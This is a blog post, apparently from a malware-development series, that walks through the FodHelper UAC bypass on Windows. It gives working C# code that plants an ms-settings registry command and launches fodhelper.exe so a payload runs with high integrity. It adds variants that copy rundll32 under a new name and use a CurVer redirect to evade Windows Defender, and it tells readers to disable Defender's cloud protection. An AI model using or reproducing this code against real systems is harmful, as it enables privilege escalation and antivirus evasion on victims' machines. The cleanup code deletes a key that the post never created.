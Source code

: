 ```yaml
---
layout: post
title: Experimenting with the FodHelper UAC bypass
date: 2023-11-29
categories: [Malware Development, Evasion]
tags: [evasion]     
---
```



FodHelper is a Windows binary used to manage optional features. `fodhelper.exe` is vulnerable because it is a high-integrity process that interacts with the `HKEY_CURRENT_USER` registry hive, which we can control. One notable example of malware that uses `fodhelper.exe` to bypass User Account Control (UAC) and execute malicious activities is the TrickBot trojan.

When launched, FodHelper will search for the `(default)` value in the `HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command` registry key. This registry key does not exist by default, so if we create it and add the DelegateExecute property, it will execute our payload in a high-integrity context.

Let's try out a console app that will make `fodhelper.exe` execute our payload, marked as `<PAYLOAD>` 

> All of the projects created in this post are on my GitHub, check them out! Don't forget to turn off`Cloud-Delivered protection` and `Automatic sample submission`.
{: .prompt-info }


```csharp
using System.Diagnostics;
using Microsoft.Win32;

// Create the registry key
RegistryKey key = Registry.CurrentUser.CreateSubKey(@"Software\Classes\ms-settings\shell\open\command");

// Set the default value of the key
key.SetValue("", "<PAYLOAD>");

// Create the DelegateExecute property
key.SetValue("DelegateExecute", "", RegistryValueKind.String);

// Create a new process
Process process = new Process();

// Set the process start info
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";

// Start the process
process.Start();
```

Let's substitute `<PAYLOAD>` for `powershell.exe`, build the code and try it out.

![Image 1](/assets/image1.png)

It seems like Windows Defender doesn't want to have executables in `(default)`. What if we try `powershell` instead of `powershell.exe`?...still doesn't work. Maybe `powershell "Start-Process powershell"`?...nope. If we can't get it to execute any commands, injecting a DLL into FodHelper is the next best thing. 

The easiest way to do this would be to make it execute `rundll32 <DLL_NAME>`. Since I don't think Defender would be too happy with us making FodHelper run a binary from `%windir%\system32`, let's make a copy of `run32dll`. Our payload should now be `C:\temp\luci C:\temp\payload.dll`. Let's apply these revisions to our code

```csharp
using System.Diagnostics;
using Microsoft.Win32;
// The full and improved code in this snippet above can be found on my GitHub
private const string Payload = "C:\temp\luci.exe C:\temp\payload.dll,DllMain";

// Copy run32dll.exe to luci.exe
File.Copy(@"C:\windows\system32\rundll32.exe", @"C:\temp\luci.exe");

// Create the registry key
RegistryKey key = Registry.CurrentUser.CreateSubKey(@"Software\Classes\ms-settings\shell\open\command");

// Set the default value of the key
key.SetValue("", Payload);

// Create the DelegateExecute property
key.SetValue("DelegateExecute", "", RegistryValueKind.String);

// Create a new process
Process process = new Process();

// Set the process start info
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";

// Start the process
process.Start();
```

Having an evasive payload inside a DLL can be difficult, so let's see if this can be done any other way. What if we can somehow trick Defender into thinking the registry key has been untouched? Let's look it up.

![Image 2](/assets/image2.png)

Upon reading the documentation, I have stumbled upon this:


|CurVer |	Set the (Default) entry of this subkey to the most current version of this ProgID.Note: Unless you have side-by-side application versions, that is, multiple versions installed on the same system, you should avoid using CurVer.|
|--- |---|

***https://learn.microsoft.com/en-us/windows/win32/shell/fa-progids***

Looks fairly promising...let's see how it can be used. Consulting with StackExchange led me to this (post)[https://stackoverflow.com/questions/20974888/how-to-find-componentid-of-wscript-shell]. Finally, this should trick Defender into perceiving the registry untouched:

```csharp  
// Create the registry keys
Registry.SetValue(@"HKEY_CURRENT_USER\Software\Classes\ms-settings\CurVer", "", ".redirect");
Registry.SetValue(@"HKEY_CURRENT_USER\Software\Classes\.redirect\Shell\Open\command", "", <PAYLOAD>);

 // Start the process
Process process = new Process();
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";
process.Start();

// Cleanup
System.Threading.Thread.Sleep(3000);
Registry.CurrentUser.DeleteSubKeyTree("Software\\Classes\\ms-settings");
Registry.CurrentUser.DeleteSubKeyTree("Software\\Classes\\rekt");

```

And...this got caught by Defender again. So far, it seems like the only way to do this is using a DLL. I will update this post if I find any other method. 

Thanks for reading!
